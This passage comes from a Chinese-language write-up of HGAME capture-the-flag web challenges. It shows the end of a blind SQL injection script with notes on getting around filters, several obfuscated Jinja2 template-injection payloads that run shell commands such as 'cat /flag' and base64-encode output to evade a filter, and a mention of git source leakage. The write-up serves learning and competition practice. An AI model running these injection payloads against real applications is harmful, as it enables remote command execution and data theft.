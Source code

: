             if sec<=1:
                l = mid + 1
            else:
                h = mid
            mid = (l + h) // 2
        flag += chr(mid)
        print(flag)
    print(flag)

有三个小点讲一下：
1、等号=被过滤，我们可以使用like绕过。
2、等号后面的单引号被过滤，我们用十六进制代替。
3、usern@me和p@ssword加反引号的原因是@是mysql的特殊字，需要用反引号包围，否则跑不出来，可以自己试一下。

拿到账号密码登录：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210215212219.png)

    hgame{7imeB4se_injeCti0n+hiDe~th3^5ecRets}

二、Forgetful

一个非常简单的SSTI，一分钟就秒了。（不知道SSTI的务必百度自学一下，这个东西比赛很常见）

之前NCTF的payload直接就打通了：https://troyess.com/2020/11/23/NCTF2020%E7%AD%BE%E5%88%B0%E6%91%B8%E9%B1%BC/

查看目录：

    {{""["\x5f\x5fcla"+"ss\x5f\x5f"]["\x5f\x5fm"+"ro\x5f\x5f"][1]["\x5f\x5fsub\x63lasses\x5f\x5f"]()[117]["\x5f\x5fin"+"it\x5f\x5f"]["\x5f\x5fglo"+"bals\x5f\x5f"]["popen"]("dir /")["read"]()}}

尝试读取flag：

    {{""["\x5f\x5fcl\x61ss\x5f\x5f"]["\x5f\x5fb\x61ses\x5f\x5f"][0]["\x5f\x5fsubcla" "sses\x5f\x5f"]()[166]["\x5f\x5fini\x74\x5f\x5f"]["\x5f\x5fglob\x61ls\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["eval"]("\x5f\x5fimport\x5f\x5f(\x27os\x27)\x2epopen(\x27cat /flag\x27)\x2eread()")}}

返回"Stop!!!"，读取失败，测试多次后猜测只要直接返回了flag里的内容就会阻止你读取。
既然不能直接读，那就间接呗：

    {{""["\x5f\x5fcl\x61ss\x5f\x5f"]["\x5f\x5fb\x61ses\x5f\x5f"][0]["\x5f\x5fsubcla" "sses\x5f\x5f"]()[166]["\x5f\x5fini\x74\x5f\x5f"]["\x5f\x5fglob\x61ls\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["eval"]("\x5f\x5fimport\x5f\x5f(\x27os\x27)\x2epopen(\x27cd ..;base64 flag\x27)\x2eread()")}}

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210215214103.png)

    hgame{h0w_4bou7+L3arn!ng~PythOn^Now?}

三、Post to zuckonit2.0 & Post to zuckonit another version

发生甚么事了

四、Arknights

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210217115128.png)

根据题目描述，本模拟器是用git搭建的，暗示存在git源码泄露。

Githack获取源码：
